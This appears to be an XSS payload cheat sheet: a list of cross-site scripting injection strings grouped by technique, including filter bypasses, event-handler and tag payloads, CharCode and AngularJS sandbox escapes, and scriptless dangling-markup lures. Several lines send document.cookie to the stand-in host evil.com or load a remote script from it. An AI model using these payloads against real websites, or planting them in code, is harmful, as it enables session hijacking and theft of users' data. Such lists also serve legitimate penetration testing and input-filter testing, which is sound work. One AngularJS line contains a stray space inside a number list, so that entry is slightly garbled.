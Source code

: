 ```none
--------------------------------------------------------------------
XSS Locators:
'';!--"<XSS>=&{()}
--------------------------------------------------------------------
Classic Payloads:
<svg onload=alert(1)>
"><svg onload=alert(1)>
<iframe src="javascript:alert(1)">
"><script src=data:&comma;alert(1)//
--------------------------------------------------------------------
script tag filter bypass:
<svg/onload=alert(1)>
<script>alert(1)</script>
<script     >alert(1)</script>
<ScRipT>alert(1)</sCriPt>
<%00script>alert(1)</script>
<script>al%00ert(1)</script>
--------------------------------------------------------------------
HTML tags:
<img/src=x a='' onerror=alert(1)>
<IMG """><SCRIPT>alert(1)</SCRIPT>">
<img src=`x`onerror=alert(1)>
<img src='/' onerror='alert("kalisa")'>
<IMG SRC=# onmouseover="alert('xxs')">
<IMG SRC= onmouseover="alert('xxs')">
<IMG onmouseover="alert('xxs')">
<BODY ONLOAD=alert('XSS')>
<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">
<SCRIPT SRC=http:/evil.com/xss.js?< B >
"><XSS<test accesskey=x onclick=alert(1)//test
<svg><discard onbegin=alert(1)>
<script>image = new Image(); image.src="https://evil.com/?c="+document.cookie;</script>
<script>image = new Image(); image.src="http://"+document.cookie+"evil.com/";</script>
--------------------------------------------------------------------
Other tags:
<BASE HREF="javascript:alert('XSS');//">
<DIV STYLE="width: expression(alert('XSS'));">
<TABLE BACKGROUND="javascript:alert('XSS')">
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
<xss id=x tabindex=1 onactivate=alert(1)></xss>
<xss onclick="alert(1)">test</xss>
<xss onmousedown="alert(1)">test</xss>
<body onresize=alert(1)>”onload=this.style.width=‘100px’>
<xss id=x onfocus=alert(document.cookie)tabindex=1>#x’;</script>
--------------------------------------------------------------------CharCode:
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
--------------------------------------------------------------------
if the input is already in script tag:
@domain.com">user+'-alert`1`-'@domain.com
--------------------------------------------------------------------AngularJS: 




toString().constructor.prototype.charAt=[].join; [1,2]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,11 4,116,40,49,41)
--------------------------------------------------------------------
Scriptless:
<link rel=icon href="//evil?
<iframe src="//evil?
<iframe src="//evil?
<input type=hidden type=image src="//evil?
```